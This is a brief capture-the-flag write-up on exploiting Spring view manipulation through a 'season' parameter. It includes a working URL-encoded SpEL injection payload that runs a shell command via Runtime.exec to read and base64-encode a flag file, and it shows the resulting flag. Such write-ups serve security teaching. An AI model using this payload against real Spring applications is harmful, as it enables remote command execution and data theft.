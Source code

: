 # solution
- https://github.com/veracode-research/spring-view-manipulation
- manipulate the season parameter
- inject a command using *Runtime*
- only the first word will be shown on the screen, so the flag must e.g. be base64 encoded (with wrapping disabled, to avoid linebreaks):

  `cat flag.txt|base64 -w 0`

- in order to allow piped commands, pass an array to Runtime:

  `getRuntime().exec(new String[]{"/bin/sh", "-c", "cat flag.txt|base64 -w 0"})`

- URL encode
- final request:

  `http://46.101.107.117:2111/season?season=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(new%20String%5B%5D%20%7B%22%2Fbin%2Fsh%22%2C%20%22-c%22%2C%20%22cat%20flag.txt%7Cbase64%20%2Dw%200%22%7D).getInputStream()).next()%7d__::.x`

  bm90aGluZyBlbHNlIGJ1dCB0aGUgZmxhZyBoZXJlOiBoZTIwMjF7U3ByMW5nXzFzX215X2Y0dnJ0